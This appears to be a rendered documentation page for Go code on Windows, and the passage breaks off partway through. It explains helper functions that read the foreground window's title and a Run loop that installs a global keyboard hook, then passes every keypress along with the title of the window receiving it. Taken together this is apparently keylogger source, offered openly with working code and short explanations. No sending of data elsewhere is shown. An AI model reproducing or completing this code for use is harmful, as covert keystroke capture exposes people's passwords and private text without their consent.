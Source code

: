 ### Functions:
```go
func GetWindowTextLength(hwnd HWND) int {
	ret, _, _ := procGetWindowTextLength.Call(
		uintptr(hwnd))

	return int(ret)
}
```
GetWindowTextLength is a function that takes the HWND of the window and returns the length of the window text.  


```go
func GetWindowText(hwnd HWND) string {
	textLen := GetWindowTextLength(hwnd) + 1

	buf := make([]uint16, textLen)
	procGetWindowText.Call(
		uintptr(hwnd),
		uintptr(unsafe.Pointer(&buf[0])),
		uintptr(textLen))

	return syscall.UTF16ToString(buf)
}

```
GetWindowText is a function that takes the HWND of the window and returns the windows' text by storing it in a buffer then converting it to a string.  


```go
func GetForegroundWindow() uintptr {
	hwnd, _, _ := procGetForegroundWindow.Call()
	return hwnd
}
```
GetForegroundWindow is a function that returns the currently focused window.  


```go
func Run(key_out chan rune, window_out chan string) error {
	// Buffer size is depends on your need. The 100 is placeholder value.
	keyboardChan := make(chan types.KeyboardEvent, 1024)

	if err := keyboard.Install(nil, keyboardChan); err != nil {
		return err
	}

	defer keyboard.Uninstall()

	signalChan := make(chan os.Signal, 1)
	signal.Notify(signalChan, os.Interrupt)

	fmt.Println("start capturing keyboard input")

	for {
		select {
		case <-signalChan:
			fmt.Println("Received shutdown signal")
			return nil
		case k := <-keyboardChan:
			if hwnd := GetForegroundWindow(); hwnd != 0 {
				if k.Message == types.WM_KEYDOWN {
					key_out <- VKCodeToAscii(k)
					window_out <- GetWindowText(HWND(hwnd))
				}
```